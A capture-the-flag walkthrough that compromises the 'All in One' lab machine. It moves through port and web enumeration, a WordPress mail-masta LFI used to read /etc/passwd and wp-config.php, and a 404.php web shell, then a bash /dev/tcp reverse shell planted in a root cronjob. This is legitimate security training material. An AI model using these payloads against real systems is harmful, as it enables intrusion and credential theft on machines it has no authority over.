 #  All_in_One Walkthrough

![](images/BoxImage.png)

### __First Stage : Enumeration

So lets do a nmap scan for open ports

>nmap -sC -sV -T4 -vv -p- -oN nmapscan -Pn \<ip>

```
# Nmap 7.91 scan initiated Thu Dec 10 16:31:38 2020 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan -Pn 10.10.110.123
Warning: 10.10.110.123 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.110.123
Host is up, received user-set (0.17s latency).
Scanned at 2020-12-10 16:31:38 IST for 1810s
Not shown: 64787 closed ports, 745 filtered ports
Reason: 64787 conn-refused and 745 no-responses
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.74.96
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:5c:33:22:76:5c:93:66:cd:96:9c:16:6a:b3:17:a4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLcG2O5LS7paG07xeOB/4E66h0/DIMR/keWMhbTxlA2cfzaDhYknqxCDdYBc9V3+K7iwduXT9jTFTX0C3NIKsVVYcsLxz6eFX3kUyZjnzxxaURPekEQ0BejITQuJRUz9hghT8IjAnQSTPeA+qBIB7AB+bCD39dgyta5laQcrlo0vebY70Y7FMODJlx4YGgnLce6j+PQjE8dz4oiDmrmBd/BBa9FxLj1bGobjB4CX323sEaXLj9XWkSKbc/49zGX7rhLWcUcy23gHwEHVfPdjkCGPr6oiYj5u6OamBuV/A6hFamq27+hQNh8GgiXSgdgGn/8IZFHZQrnh14WmO8xXW5
|   256 1b:6a:36:e1:8e:b4:96:5e:c6:ef:0d:91:37:58:59:b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Ww9ui4NQDHA5l+lumRpLsAXHYNk4lkghej9obWBlOwnV+tIDw4mgmuO1C3U/WXRgn0GrESAnMpi1DSxy8t1k=
|   256 fb:fa:db:ea:4e:ed:20:2b:91:18:9d:58:a0:6a:50:ec (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAOG6ExdDNH+xAyzd4w1G4E9sCfiiooQhmebQX6nIcH/
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 10 17:01:48 2020 -- 1 IP address (1 host up) scanned in 1809.99 seconds
```

So ports that are open 

* 21
* 22
* 80

So lets visit the website on port 80.

![](images/website1.png)





Since we a website lets do a gobuster scan.


We get this.

![](images/gobuster.png)


The directories are 

* wordpress
* hackathons

Lets visit wordpress


![](images/wordpress.png)


Now lets visit hackathons


![](images/hackathon.png)


if we go to the source code of this page we find 

![](images/sourcecode.png)



Maybe it is encoded in vigenere lets fire up [cyberchef](https://gchq.github.io/CyberChef/) . We get a password but we dont know where it is used .


![](images/cyberchef.png)


Now we can use wpscan to scan the wordpress site

> wpscan --url http://\<ip>

We get interesting plugins.

![](images/plugins.png)


Now after searching in gooogle we get that both are vulnerable plugins . 

Lets try exploiting mail-masta plugin.


###  __Second Stage : Initial Access__

The mail-masta plugin has __[LFI](https://www.exploit-db.com/exploits/40290)__ which we can use to exploit.


We can see the **/etc/passwd** file  using

>http://\<ip>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd

Now we want the username and password which can be found in wp-config.php . If we use put directly in the parameter pl we wont get , we need to use php filter to get the config file . Google *"php filter lfi"* you will get results. 

I am using base64 filter .

>http://\<ip>/wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=../../../../../wp-config.php

We can get the file in base64 encoded format.

![](images/lfi2.png)


If we decode it we get the username and password.

![](images/password.png)



So lets login and get reverse shell.


![](images/revshell.png)


Use this command to access the edited 404.php file

```BASH
curl http://<ip>/wordpress/wp-content/themes/twentytwenty/404.php 
```

Now we get a shell.


![](images/www-data.png)


Use these commands to upgrade shell.


```BASH
python3 -c"import pty;pty.spawn('/bin/bash')"
#then press CTRL-Z 
stty raw -echo ; fg
#press enter two times
export TERM=screen
```

### __Third Stage : www-data to user__

We run linpeas to see if we can get attack vectors or loopholes.

We see a **cronjob** running by __root__

![](images/linpeas.png)


Then we see port __3306__ open which is __mysql server__

![](images/mysql.png)


And we can find **credentials** for the mysql db


![](images/sqlcreds.png)


So if we go to the /home/elyana directory we see

![](images/hint.png)


So if we search using **find** command 

>find / -type f -user elyana 2>>/dev/null

![](images/elyanapass.png)


And we can see that private.txt has password in it.

Now we can ssh into the machine and get the user flag


![](images/user.png)



### __Fourth Stage : user to root__


Now if we try sudo -l we get this

![](images/sudo.png)


When we were www-data we saw that a cronjob was running , hence we can see if we can use it.

Let's go and cat the script.

![](images/cronjob.png)


Let's edit the script to get a reverse shell

>bash -i >& /dev/tcp/\<vpn_ip>/4444 0>&1


![](images/edited.png)





And start a listener using
>nc -lvnp 4444


Now we get root shell.


![](images/root.png)




